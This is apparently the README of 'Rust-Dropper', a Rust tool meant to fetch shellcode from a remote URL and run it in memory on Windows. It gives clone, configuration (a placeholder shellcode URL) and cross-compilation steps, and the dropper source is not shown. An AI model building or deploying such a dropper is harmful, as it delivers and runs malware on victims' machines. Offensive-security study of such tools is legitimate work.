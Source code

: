 # Rust-Dropper
A lightweight Rust-based dropper designed to fetch and execute shellcode from a remote server. 
This project demonstrates how to implement a dropper with memory allocation and shellcode execution techniques using Rust and Windows API calls. Ideal for educational purposes and exploring offensive security concepts.

## Features
- Downloads shellcode from a specified URL.
- Allocates memory and executes the downloaded shellcode.
- Utilizes Windows API calls for memory management and execution.

## Prerequisites
- Rust programming language: [Install Rust](https://www.rust-lang.org/tools/install)
- mingw-w64 for Windows target: [Install mingw-w64](http://mingw-w64.org/doku.php/download)

## Installation

Clone the repository:

```bash
git clone https://github.com/Erez-Goldberg/rust-dropper.git
cd Rust-Dropper
```

## Usage
Edit the main.rs file to specify the URL of your shellcode:
```bash
let url = "https://example.com/shellcode.bin";
```

## Compilation
Windows
1. Ensure you have mingw-w64 installed:
```bash
sudo apt install mingw-w64
```
2. compile the project **from the Rust-Dropper directory** with:
```bash
cargo build --release --target x86_64-pc-windows-gnu
```
3. The path of the new executalbe is: Rust-Dropper/target/x86_64-pc-windows-gnu/release
